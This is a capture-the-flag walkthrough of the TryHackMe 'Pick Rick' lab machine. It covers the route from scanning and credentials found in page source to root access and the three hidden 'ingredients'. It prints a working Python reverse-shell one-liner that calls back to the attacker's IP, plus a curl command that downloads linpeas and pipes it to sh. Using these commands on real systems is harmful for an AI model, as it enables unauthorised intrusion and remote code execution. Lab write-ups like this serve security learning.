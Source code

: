 # Pick Rick

```bash
export IP=10.10.189.1
```

## Scans

### Nmap

Open Ports:
```
22 -- ssh
80 -- webserver
```

Found on webserver page source
```
Username: R1ckRul3s
```

Found in /robots.txt
```
Wubbalubbadubdub
```

### Gobuster

Directories found:
```
/assets
/index.html
/login.php
/portal.php
/robots.txt
```

credentials `R1ckRul3s:Wubbalubbadubdub` work on `/login.php` -- redirects to `/portal.php` after success

found in `/portal.php` page source: `Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`

Turns out to be nested Base64: `rabbit hole`


## Initial Access

'Command Panel' exists on page but there's a blacklist on some commands

**First Ingredient found**: `mr. meeseek hair`
```
grep . Sup3rS3cretPickl3Ingred.txt
```


This tells us other Ingredients are in the file system
```
grep . clue.txt
```

## Reverse Shell

the 'Command Panel' in `/portal.php` runs Python3

Netcat Listening Port:
```bash
nc -lnvp 9001
```

Reverse Shell Command:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.80.57",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Upgrading Shell to TTY:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Second Ingredient Found**: `1 jerry tear`
```
cd /home/rick/
cat Second Ingredients
```


## Linpeas - Host Enumeration

On Host:
```bash
sudo python -m SimpleHTTPServer 80
```

On Target:
```bash
cd /dev/shm/
curl 10.2.80.57/linpeas.sh | sh
```

Interesting Info found:
```
User www-data may run the following commands on ip-10-10-189-1.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

so:
```bash
sudo bash
```

Root Shell Achieved.

**Third Ingredient Found**: `fleeb juice`


## Final Ingredients List:

1. `mr. meeseek hair` -- found in `/var/www/html/Sup3rS3cretPickl3Ingred.txt`

2. `1 jerry tear` -- found in `/home/rick/second ingredients`

3. `fleeb juice` -- found in `/root/3rd.txt`


---
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.md)
